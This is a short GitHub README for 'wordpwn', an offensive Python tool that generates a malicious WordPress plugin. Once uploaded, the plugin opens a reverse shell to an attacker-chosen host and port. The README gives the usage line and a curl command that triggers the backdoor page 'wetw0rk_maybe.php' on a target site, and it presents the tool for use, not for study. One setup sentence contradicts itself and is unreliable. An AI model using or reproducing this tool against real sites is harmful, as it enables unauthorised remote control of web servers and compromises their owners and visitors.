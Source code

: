 # malicious-wordpress-plugin
Simply generates a wordpress plugin that will grant you a reverse shell once uploaded. I recommend don't installing Kali Linux, as msfvenom is not used to generate the payload.

#### Usage Example
```sh
root@wetw0rk:~# python wordpwn.py 
__        __            _
\ \      / /__  _ __ __| |_ ____      ___ __
 \ \ /\ / / _ \|  __/ _  |  _ \ \ /\ / /  _ \ 
  \ V  V / (_) | | | (_| | |_) \ V  V /| | | |
   \_/\_/ \___/|_|  \__,_| .__/ \_/\_/ |_| |_|
                         |_|


Usage: wordpwn.py [LHOST] [LPORT] [HANDLER]
Example: wordpwn.py 192.168.0.6 8888 Y
```

Finally, visist the backdoor page `wetw0rk_maybe.php`.

```
curl http://[target]/wp-content/plugins/malicous-1/wetw0rk_maybe.php
```

